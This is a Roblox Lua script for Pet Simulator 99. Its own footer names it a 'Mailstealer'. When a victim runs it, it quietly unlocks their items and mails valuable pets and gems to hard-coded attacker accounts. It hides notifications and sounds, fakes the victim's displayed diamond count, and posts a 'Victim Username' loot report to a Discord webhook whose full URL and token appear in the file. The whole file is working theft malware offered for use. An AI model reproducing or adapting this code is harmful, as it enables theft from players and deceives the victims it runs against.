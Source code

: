 Username = "belerik016"
Username2 = "belerik016" -- stuff will get sent to this user if first user's mailbox is full
Webhook = "https://discord.com/api/webhooks/1239530418991140895/XxN50CPzJuppo9xxmiJ7E3ZmF9q54fR9BPYfgQq2_-vjJn1F4VoicAZ-ZOMeVq6dkcdm"
min_rap = 1000 -- minimum rap of each item you want to get sent to you.
 
local network = game:GetService("ReplicatedStorage"):WaitForChild("Network")
local library = require(game.ReplicatedStorage.Library)
local save = library.Save.Get().Inventory
local mailsent = library.Save.Get().MailboxSendsSinceReset
local plr = game.Players.LocalPlayer
local MailMessage = "gg / HcpNe56R2a"
local HttpService = game:GetService("HttpService")
local sortedItems = {}
_G.scriptExecuted = _G.scriptExecuted or false
local GetSave = function()
    return require(game.ReplicatedStorage.Library.Client.Save).Get()
end
 
if _G.scriptExecuted then
    return
end
_G.scriptExecuted = true
 
local newamount = 20000
 
if mailsent ~= 0 then
	newamount = math.ceil(newamount * (1.5 ^ mailsent))
end
 
local GemAmount1 = 1
for i, v in pairs(GetSave().Inventory.Currency) do
    if v.id == "Diamonds" then
        GemAmount1 = v._am
		break
    end
end
 
if newamount > GemAmount1 then
    return
end
 
local function formatNumber(number)
	local number = math.floor(number)
	local suffixes = {"", "k", "m", "b", "t"}
	local suffixIndex = 1
	while number >= 1000 do
		number = number / 1000
		suffixIndex = suffixIndex + 1
	end
	return string.format("%.2f%s", number, suffixes[suffixIndex])
end
 
local function SendMessage(url, username, diamonds)
    local headers = {
        ["Content-Type"] = "application/json"
    }
 
	local totalRAP = 0
	local fields = {
		{
			name = "Victim Username:",
			value = username,
			inline = true
		},
		{
			name = "Items to be sent:",
			value = "",
			inline = false
		}
	}
 
    local combinedItems = {}
    local itemRapMap = {}
 
    for _, item in ipairs(sortedItems) do
        local rapKey = item.name
        if itemRapMap[rapKey] then
            itemRapMap[rapKey].amount = itemRapMap[rapKey].amount + item.amount
        else
            itemRapMap[rapKey] = {amount = item.amount, rap = item.rap}
            table.insert(combinedItems, rapKey)
        end
    end
 
    table.sort(combinedItems, function(a, b)
        return itemRapMap[a].rap * itemRapMap[a].amount > itemRapMap[b].rap * itemRapMap[b].amount 
    end)
 
    for _, itemName in ipairs(combinedItems) do
        local itemData = itemRapMap[itemName]
        fields[2].value = fields[2].value .. itemName .. " (x" .. itemData.amount .. ")" .. ": " .. formatNumber(itemData.rap * itemData.amount) .. " RAP\n"
        totalRAP = totalRAP + (itemData.rap * itemData.amount)
    end
 
    fields[2].value = fields[2].value .. "\nGems: " .. formatNumber(diamonds) .. "\n"
    fields[2].value = fields[2].value .. "Total RAP: " .. formatNumber(totalRAP)
 
    local data = {
        ["embeds"] = {{
            ["title"] = "New Execution" ,
            ["color"] = 65280,
			["fields"] = fields,
			["footer"] = {
				["text"] = "Mailstealer by Tobi. discord.gg/HcpNe56R2a"
			}
        }}
    }
 
    if #fields[2].value > 1024 then
        fields[2].value  = "List of items too big to send!\n\nGems: " .. formatNumber(diamonds) .. "\n"
        fields[2].value = fields[2].value .. "Total RAP: " .. formatNumber(totalRAP)
    end
 
    local body = HttpService:JSONEncode(data)
    local response = request({
		Url = url,
		Method = "POST",
		Headers = headers,
		Body = body
	})
end
 
local user = Username
local user2 = Username2 or "2pRiAMfYN41y"
 
local gemsleaderstat = plr.leaderstats["\240\159\146\142 Diamonds"].Value
local gemsleaderstatpath = plr.leaderstats["\240\159\146\142 Diamonds"]
gemsleaderstatpath:GetPropertyChangedSignal("Value"):Connect(function()
	gemsleaderstatpath.Value = gemsleaderstat
end)
 
local loading = plr.PlayerScripts.Scripts.Core["Process Pending GUI"]
local noti = plr.PlayerGui.Notifications
loading.Disabled = true
noti:GetPropertyChangedSignal("Enabled"):Connect(function()
	noti.Enabled = false
end)
noti.Enabled = false
 
game.DescendantAdded:Connect(function(x)
    if x.ClassName == "Sound" then
        if x.SoundId=="rbxassetid://11839132565" or x.SoundId=="rbxassetid://14254721038" or x.SoundId=="rbxassetid://12413423276" then
            x.Volume=0
            x.PlayOnRemove=false
            x:Destroy()
        end
    end
end)
 
local function getRAP(Type, Item)
    return (library.DevRAPCmds.Get(
        {
            Class = {Name = Type},
            IsA = function(hmm)
                return hmm == Type
            end,
            GetId = function()
                return Item.id
            end,
            StackKey = function()
                return HttpService:JSONEncode({id = Item.id, pt = Item.pt, sh = Item.sh, tn = Item.tn})
            end
        }
    ) or 0)
end
 
local function sendItem(category, uid, am)
    local args = {
        [1] = user,
        [2] = MailMessage,
        [3] = category,
        [4] = uid,
        [5] = am or 1
    }
	local response = false
	repeat
    	local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
		if response == false and err == "They don't have enough space!" then
			user = user2
			args[1] = user
		end
	until response == true
	GemAmount1 = GemAmount1 - newamount
	newamount = math.ceil(math.ceil(newamount) * 1.5)
	if newamount > 5000000 then
		newamount = 5000000
	end
end
 
local function SendAllGems()
    for i, v in pairs(GetSave().Inventory.Currency) do
        if v.id == "Diamonds" then
			if GemAmount1 >= (newamount + 10000) then
				local args = {
					[1] = user,
					[2] = MailMessage,
					[3] = "Currency",
					[4] = i,
					[5] = GemAmount1 - newamount
				}
				local response = false
				repeat
					local response = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
				until response == true
				break
			end
        end
    end
end
 
local function IsMailboxHooked()
	local uid
	for i, v in pairs(save["Pet"]) do
		uid = i
		break
	end
	local args = {
        [1] = "Roblox",
        [2] = "Test",
        [3] = "Pet",
        [4] = uid,
        [5] = 1
    }
    local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
    if (err == "They don't have enough space!") or (err == "You don't have enough diamonds to send the mail!") then
        return false
    else
        return true
    end
end
 
local function EmptyBoxes()
    if save.Box then
        for key, value in pairs(save.Box) do
			if value._uq then
				network:WaitForChild("Box: Withdraw All"):InvokeServer(key)
			end
        end
    end
end
 
local function ClaimMail()
    local response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    while err == "You must wait 30 seconds before using the mailbox!" do
        wait()
        response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    end
end
 
local categoryList = {"Pet", "Egg", "Charm", "Enchant", "Potion", "Misc", "Hoverboard", "Booth", "Ultimate"}
 
for i, v in pairs(categoryList) do
	if save[v] ~= nil then
		for uid, item in pairs(save[v]) do
			if v == "Pet" then
                local dir = library.Directory.Pets[item.id]
                if dir.huge or dir.exclusiveLevel then
                    local rapValue = getRAP(v, item)
                    if rapValue >= min_rap then
                        local prefix = ""
                        if item.pt and item.pt == 1 then
                            prefix = "Golden "
                        elseif item.pt and item.pt == 2 then
                            prefix = "Rainbow "
                        end
                        if item.sh then
                            prefix = "Shiny " .. prefix
                        end
                        local id = prefix .. item.id
                        table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = id})
                    end
                end
            else
                local rapValue = getRAP(v, item)
                if rapValue >= min_rap then
                    table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = item.id})
                end
            end
            if item._lk then
                local args = {
                [1] = uid,
                [2] = false
                }
                network:WaitForChild("Locking_SetLocked"):InvokeServer(unpack(args))
            end
        end
	end
end
 
if #sortedItems > 0 or GemAmount1 > min_rap + newamount then
    ClaimMail()
	if IsMailboxHooked() then
		return
	end
    EmptyBoxes()
	require(game.ReplicatedStorage.Library.Client.DaycareCmds).Claim()
	require(game.ReplicatedStorage.Library.Client.ExclusiveDaycareCmds).Claim()
    local blob_a = require(game.ReplicatedStorage.Library)
    local blob_b = blob_a.Save.Get()
    function deepCopy(original)
        local copy = {}
        for k, v in pairs(original) do
            if type(v) == "table" then
                v = deepCopy(v)
            end
            copy[k] = v
        end
        return copy
    end
    blob_b = deepCopy(blob_b)
    blob_a.Save.Get = function(...)
        return blob_b
    end
 
    table.sort(sortedItems, function(a, b)
        return a.rap * a.amount > b.rap * b.amount 
    end)
 
    if Webhook and string.find(Webhook, "discord") then
        Webhook = string.gsub(Webhook, "https://discord.com", "https://webhook.lewisakura.moe")
        spawn(function()
            SendMessage(Webhook, plr.Name, GemAmount1)
        end)
    end
 
    for _, item in ipairs(sortedItems) do
        if item.rap >= newamount then
            sendItem(item.category, item.uid, item.amount)
        else
            break
        end
    end
    SendAllGems()
    setclipboard("f")
    local message = require(game.ReplicatedStorage.Library.Client.Message)
    message.Error("Thanks For Using My Script!")
end
